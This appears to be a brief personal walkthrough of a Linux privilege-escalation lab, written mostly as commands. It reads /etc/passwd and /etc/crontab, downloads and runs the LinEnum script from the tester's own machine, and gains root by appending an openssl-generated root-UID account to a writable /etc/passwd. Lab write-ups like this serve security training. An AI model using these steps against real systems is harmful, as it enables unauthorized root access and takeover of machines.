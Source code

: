 # COMMON LINUX PRIVESC

```
export IP=10.10.228.161
```

```
ssh user3@$IP
password
```

```
cat /etc/passwd 
cat /etc/shell
cat /etc/crontab
```

## LinEnum

In my machine:
```
python3 -m http.server 1234
```
In the taget machine:
```
wget http://MY-IP:1234/LinEnum.sh
chmod 777 LinEnum.sh
./LinEnum.sh | tee linenum.out
```

change to user7:
```
openssl passwd -1 -salt new 123
```
```
su user7
password

nano /etc/passwd

new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash
su new
123
```

And ta-da, superuser mode!

```
sudo -l
```